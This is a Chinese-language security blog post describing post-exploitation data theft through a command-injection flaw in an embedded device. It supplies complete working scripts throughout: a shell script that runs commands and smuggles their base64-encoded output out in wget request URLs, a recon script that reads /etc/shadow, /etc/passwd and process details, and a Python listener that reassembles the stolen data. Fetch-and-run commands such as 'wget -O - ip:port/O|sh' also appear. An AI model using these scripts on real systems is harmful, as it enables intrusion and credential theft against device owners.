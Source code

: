 ```yaml
---
layout: post
comments: true
title: 命令注入后渗透利用之wget信息收集
category: 网络安全
keywords: RCE,cmdi,2021
---
```


## 背景
前段时间挖掘到一个SXF产品的命令注入漏洞，发现设备支持wget，但是通过各种方法都无法把设备信息外传。很可能是因为嵌入式设备因flash空间有限，对很多程序进行裁剪，很多参数都不支持了。

基于这个背景，我尝试编写一个通过wget泄露信息的脚本。

## 设计思路
总体思路分成三个脚本实现目标功能，shell脚本W和O，python脚本wget_leck_ser.py。

### shell脚本W
+ 步骤1 通过参数传入要执行的命令，把命令执行结果重定向到/tmp目录下的一个临时文件
+ 步骤2 读取临时文件并进行base64编码
+ 步骤3 通过awk把base64编码后的字符串进行分割
+ 步骤4 通过wget把分割后的字符串依次放在URI中外传

### shell脚本O
+ 步骤1 给脚本W增加执行权限
+ 步骤2 执行一系列预置的命令，把命令传给脚本W执行

### python脚本wget_leck_ser.py
+ 步骤1 启动web服务
+ 步骤2 把接受到的请求的URI拼接起来，直至收到FINISH信息
+ 步骤3 接收到FINISH后，把拼接在一起的URI通过base64解码，并打印出来。

发现命令注入点后，首先通过wget命令，把W.sh上传到目标设备的/tmp目录下。
```
wget ip:port/W -O /tmp/W
```

接着在测试机启动wget_leck_ser.py监听信息。
```
python wget_leck_ser.py
```

最后通过wget不落地执行脚本O，获取目标信息。
```
wget -O - ip:port/O|sh
```

## 实现
下面是三个脚本的实现（拷贝到Windows系统，记得要dos2unix, 否则脚本无法正常执行）

### shell脚本W
```
#!/bin/sh

REMOTE="192.168.1.2:6789"

OUTPUT_stdout="/tmp/U.stdout.output"
OUTPUT_stderr="/tmp/U.stderr.output"
WGETLEAK="wget "$REMOTE"/c="

if [ $# -eq 0 ]; then
    exit
fi

wget_send() {
    cmd=$WGETLEAK$1
    eval $cmd
}

# CMD
wget_send `echo "#"$* | base64`
wget_send "FINISH"

# BODY
# CMD=$*"|base64|sed ':a;N;$!ba;s/\n//g'"
eval $* > $OUTPUT_stdout 2> $OUTPUT_stderr
cat $OUTPUT_stderr >> $OUTPUT_stdout

strarr=`cat $OUTPUT_stdout | base64 | awk -F "" '{
    k=128
    for (i=1;i<=NF;i=i+k) {
        tmp="";
        for (j=0;j<k&&i+j<=NF;j++)
            tmp=(tmp""$(i+j));
        print tmp;
    }
}'`

for str in $strarr
do
    wget_send $str
done

wget_send "FINISH"

rm -rf $OUTPUT_stdout $OUTPUT_stderr
```

### shell脚本O
```
#!/bin/sh

chmod 777 /tmp/W
chmod +x  /tmp/W

/tmp/W whoami
/tmp/W id
/tmp/W pwd
/tmp/W ls -al /

exit 1
/tmp/W echo $PATH
/tmp/W ls -al /bin/
/tmp/W ls -al /sbin
/tmp/W ls -al /usr/bin/
/tmp/W ls -al /usr/sbin

/tmp/W mount
/tmp/W ps aux
/tmp/W ps -ef
/tmp/W netstat -tulnp
/tmp/W ifconfig
/tmp/W fdisk -l

/tmp/W busybox
/tmp/W file /bin/busybox


/tmp/W cat /proc/cmdline
/tmp/W cat /proc/cpuinfo
/tmp/W cat /proc/meminfo
/tmp/W cat /proc/modules
/tmp/W cat /proc/uptime
/tmp/W cat /proc/zoneinfo


/tmp/W iptables -L
/tmp/W cat /etc/passwd
/tmp/W cat /etc/shadow
/tmp/W cat /etc/fstab
/tmp/W cat /etc/rc.local

for dir in `ls /`
do
    if [ "$dir" == "proc" ];then
        echo ""
    elif [ "$dir" == "sys" ];then
        echo ""
    else
        /tmp/W ls -Ra "/"$dir
    fi
done

echo "### Start ###" > /tmp/procinfo.tmp
for dir in `ls /proc`
do
	echo "" >> /tmp/procinfo.tmp
	echo "++++++ check /proc/"$dir >> /tmp/procinfo.tmp
	ls -al "/proc/"$dir"/exe" >> /tmp/procinfo.tmp
	cat "/proc/"$dir"/cmdline" >> /tmp/procinfo.tmp
done
/tmp/W cat /tmp/procinfo.tmp
rm /tmp/procinfo.tmp
```

### python脚本wget_leck_ser.py
```
from http.server import BaseHTTPRequestHandler,HTTPServer
import base64
import os

glo_content = ''
glo_filename = ''

class handler(BaseHTTPRequestHandler):
    def _set_headers(self):
        self.send_response(404)
        self.send_header('Content-type', 'text/html')
        self.end_headers()

    def log_message(self, argv1, argv2, argv3, argv4):
        pass

    def do_GET(self):
        global glo_content
        global glo_filename
        self._set_headers()
        recv = self.path.split('c=')[1]
        if recv == 'FINISH':
            try:
                content = base64.b64decode(glo_content).decode(errors='ignore')
                if content[0] == '#':
                    content = '\n' + content

                print(content)
                with open(glo_filename, 'a+') as fp:
                    fp.write(content)
            except Exception as exp:
                print(exp)
                print("[ERROR] Base64 decode error.")
            glo_content=''
        else:
            glo_content += recv
        self.wfile.write("".encode())

def run(server_class=HTTPServer, handler_class=handler, port=6789):
    global glo_filename
    filecnt = 1
    while True:
        glo_filename = "targetInfo_" + str(filecnt).zfill(3) + '.txt'
        if os.path.exists(glo_filename) is True:
            filecnt += 1
        else:
            break

    httpd = server_class(('0.0.0.0', port), handler_class)
    print('Server running at 0.0.0.0:%d...' % port)
    httpd.serve_forever()

run()
```
